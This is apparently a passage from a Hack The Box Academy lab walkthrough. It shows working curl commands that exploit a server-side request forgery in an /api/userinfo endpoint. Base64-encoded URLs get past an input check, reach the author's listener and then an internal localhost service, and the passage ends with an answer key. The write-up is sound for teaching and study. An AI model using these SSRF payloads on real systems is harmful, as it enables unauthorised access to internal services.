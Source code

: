 ```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl -s 'http://10.129.202.133:3000/api/userinfo?id=http://10.10.15.180:1337' | jq

{
  "success": false,
  "error": "'id' parameter is invalid."
}
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ echo -n 'http://10.10.15.180:1337' | base64

aHR0cDovLzEwLjEwLjE1LjE4MDoxMzM3

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl -s 'http://10.129.202.133:3000/api/userinfo?id=aHR0cDovLzEwLjEwLjE1LjE4MDoxMzM3' | jq
```

```
[CONTINUE]

connect to [10.10.15.180] from (UNKNOWN) [10.129.202.133] 53638
GET / HTTP/1.1
Accept: application/json, text/plain, */*
User-Agent: axios/0.24.0
Host: 10.10.15.180:1337
Connection: close
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ echo -n 'http://localhost:3002' | base64

aHR0cDovL2xvY2FsaG9zdDozMDAy

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl -s 'http://10.129.202.133:3000/api/userinfo?id=aHR0cDovL2xvY2FsaG9zdDozMDAy' | jq
```

**Answer**

```
Yes
```

## Regular Expression Denial of Service (ReDoS)

### Questions

#### Question #11

**Question**
